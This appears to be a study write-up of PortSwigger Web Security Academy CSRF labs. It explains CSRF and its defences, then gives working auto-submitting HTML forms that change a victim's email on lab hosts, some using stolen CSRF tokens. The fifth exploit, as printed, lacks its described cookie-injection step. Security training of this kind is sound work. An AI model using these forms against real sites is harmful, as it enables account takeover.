








# What is CSRF?

Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform.

# What is the impact of a CSRF attack?

An attacker can make a victim perform malicious tasks unintentionally.

- update password
- transfer funds
- change email
- delete account

The impact can vary, but the attacker can even gain full access to the user account. If the user has elevated privileges, it can also compromise the entire system.

# What makes a CSRF attack possible?

The system must have:

- **Relevant action** — a system action that can be exploited to gain control over the account/system
- **Cookie-based session handling** — the system relies on session cookies to identify the user who has made requests. There is no other mechanism that tracks the user session
- **No unpredictable request parameters** — there is a predefined set of parameters that can be determined or guessed by an attacker

# How to defend?

- **CSRF TOKEN** — a unique secret that is generated on the server and sent to the client. When a user makes any critical request to the server, it must always include the CSRF token so the server can validate it
- **SameSite cookies** — a browser mechanism that determines when website cookies are included in requests originating from other websites. Lax is the default SameSite restriction in Google Chrome
- **Referer-based validation** — some applications use the HTTP Referer header to defend against CSRF attacks, typically by verifying that the request originated from the application's own domain. This is generally less effective than CSRF token validation

# 🟢 1. CSRF vulnerability with no defenses

- Go to the website and update the email once
- Find that request in Burp Suite and paste the URL into the HTML form
- Find the email parameter and replace it with your own email

```html
<html>
  <body>
    <form
      action="https://0a34009e0372d4b880572bb3008f002c.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input type="hidden" name="email" value="my@evil-email.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# 🔵 2. CSRF where token validation depends on request method

- Update the method from POST to GET
- Same as previous

```html
<html>
  <body>
    <form
      action="http://0a54009d03d99a9d817c1bd2006c00c5.web-security-academy.net/my-account/change-email"
      method="GET"
    >
      <input type="hidden" name="email" value="my@evil-email.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```



# 🔵 3. CSRF where token validation depends on token being present

- Remove the token and submit the request

  

- The token is checked only if it is sent to the server. If we don't send it, the request is valid.

```html
<html>
  <body>
    <form
      action="https://0a6a00ce0464809b8032d0dc009800d5.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input type="hidden" name="email" value="my@evil-email.ne2t" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# 🔵 4. CSRF where token is not tied to user session

- Take the CSRF token from a second user and paste it into the POST request for changing the email of user 1
- With one valid CSRF token, we can target other user accounts




```html
<html>
  <body>
    <form
      action="https://0a6a00ce0464809b8032d0dc009800d5.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input type="hidden" name="email" value="my@evil-email.ne2t" />

      <input
        required=""
        type="hidden"
        name="csrf"
        value="HmODn47sXp1BI1R9YyOEALaWsIjXo3Y4"
      />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# 🔵 5. CSRF where token is tied to a non-session cookie

- Notice that in the Cookie header there is a `csrfKey` property
- From Peter's account, take the CSRF token and CSRF key and paste them into another user's request
- The email update was successful

- The next goal is to inject a CSRF key cookie and then generate a token based on that key, which will allow us to proceed with the attack

User 1:


CSRF key and token pasted into user 2 request:


Update was successful:


The place where we can manipulate user cookies is in the search functionality. When we search for something, a new cookie is created. If we add a new line and include a Set-Cookie header, we can set the attacker's CSRF key in the victim's session. That is the goal.



Now, with the key set, the corresponding token from the attacker will be valid.

Now our attack contains 2 points:

1. Set the CSRF key cookie via search (img src link)
2. Proceed with the CSRF attack as in the previous exercises (form that is submitted on error)

```html
<html>
  <body>
    <form
      action="https://0a8500cf04385eaa8137170d00da000f.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input type="hidden" name="email" value="my@evil-email.net" />

      <input
        required=""
        type="hidden"
        name="csrf"
        value="cZHFRHWPAOF3WaDWXRhXNGOPQSyG1mzJ"
      />
    </form>
    
  </body>
</html>
```
